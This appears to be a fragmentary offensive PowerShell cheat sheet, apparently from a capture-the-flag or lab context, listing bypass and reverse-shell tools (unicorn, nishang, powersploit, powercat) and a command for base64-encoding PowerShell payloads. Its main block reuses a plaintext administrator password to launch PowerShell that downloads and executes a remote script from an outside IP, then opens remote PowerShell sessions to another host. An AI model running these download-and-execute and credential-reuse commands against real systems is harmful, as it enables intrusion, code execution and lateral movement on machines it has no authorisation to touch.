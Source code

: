 # powershell

bypass tool 

github.com/trustedsec/unicorn



framework   nishang   powersploit

reverse shell powercat



avoid any possible quotation and encoding issues

little endian UTF-16 encoding version.

```
iconv -f ASCII -t UTF-16LE powershell.txt | base64 | tr -d "\n"
```

hash

`get-filehash`

```
password reuse

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator',$passwd) 
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.17.114/1.ps1')" -Credential $creds
or
new-pssession -computername . -credential $cred  // enter-pssession -computer arkham -credential $cred
enter-pssession 1
```
